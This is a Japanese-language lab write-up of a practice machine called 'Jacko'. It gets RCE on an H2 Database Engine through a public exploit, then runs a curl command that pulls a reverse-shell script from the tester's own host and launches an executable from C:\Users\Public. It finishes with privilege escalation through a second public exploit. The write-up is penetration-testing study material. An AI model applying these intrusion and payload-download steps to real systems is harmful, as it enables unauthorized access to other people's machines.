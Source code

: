 # Jacko
## Time
foothold = 35min
getshell = 40min
privesc =  ∞


## 教訓
- Windows特有のシェル取りの難しさがあった。
- Windowsのときはmeterpreter runさせるのがよさそう。安定する。
- PATHが通ってないとかがあるので、setしたりして環境変数設定するのも大事。


## 手順
1. rustscanすると、8082と80ポートが怪しい。
2. feroxbusterすると8082ポートの方で、H2 Database EngineというJava系アプリが動いてる。[このエクスプロイト](https://www.exploit-db.com/exploits/49384)を使う。その際、login自体はパスワードなしでいける。
3. エクスプロイトを使うとjacko\tonyが表示され、whoamiがうまくいってることが分かる。
4. tcpdumpとpython3 -m http.server 80でチェックしながらRCEで動作するコマンドを探る。curl 192.168.45.186:80/rev.ps1 -o ./rev.ps1が動いた。cmd /c dirも動く。
5. 実行しているディレクトリはC:\Program Files (x86)\H2\serviceということが分かる。cmd /c cdのコマンドを実行するとわかる
6. tcpdumpするとcurlで取得はできてるっぽいけど、どうもフォルダへの書き込みができていないっぽい？なのでcurlの-oでファイルの書き込み先を../../../Users/Public/hoge.exeみたいにする。そうすると、C:\Users\Public\hoge.exeにファイルを吐き出すことになり、そのフォルダ指定してhoge.exeを実行するとシェルが取れる。
7. ただ、whoamiやcmd.exeといった一般的なコマンドがnot foundとなってまともに実行できない。これは環境変数が適切なデフォルト値になっていないためと考えられるため、環境変数を設定する。以下のコマンドで、powershellのコマンドをシェルに指定できる。  
```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```
8. Program Filesx86フォルダの下に、[このソフト](https://www.exploit-db.com/exploits/49382)がある。このソフトのパブリックエクスプロイトを使って権限昇格して終わり。
9. この時、winpeasやprivesccheckの結果が結構ヒットする。dllハイジャックやSeImpersonateなど。SeImpersonateはgodpotatoで機能するらしいが自分の環境では再現できず。他にもいくつか別の方法してる人はいたが、このPagerのパブリックエクスプロイトからいくのが意図したパスっぽい？